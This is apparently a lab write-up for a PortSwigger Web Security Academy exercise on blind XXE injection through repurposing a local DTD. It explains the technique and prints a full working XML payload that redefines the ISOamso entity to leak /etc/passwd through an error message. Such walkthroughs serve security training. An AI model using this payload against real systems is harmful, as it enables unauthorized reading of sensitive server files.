 # Exploiting XXE to retrieve data by repurposing a local DTD
# Objective
 This lab has a "Check stock" feature that parses XML input but does not display the result.\
To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.\
You'll need to reference an existing DTD file on the server and redefine an entity from it. \
Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso`.

# Solution
## Analysis
Application has a `Check stock` feature. Data from client to server is sent in XML format.

|![](Images/image-25.png)|
|:--:| 
| *Check stock request* |

## Exploitation
Attacker may attempt to repurpose a local DTD - when application uses both internal (data provided in request by attacker) and external DTD file (that is local to the application server) attacker may try to redefine entity from external DTD. This may relax restriction on using an XML parameter entity within the definition of another parameter entity.

[Full Portswigger description](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-by-repurposing-a-local-dtd)

Full payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck><productId>4</productId><storeId>1</storeId></stockCheck>
```

|![](Images/image-26.png)|
|:--:| 
| *XXE injection with repurposing a local DTD* |

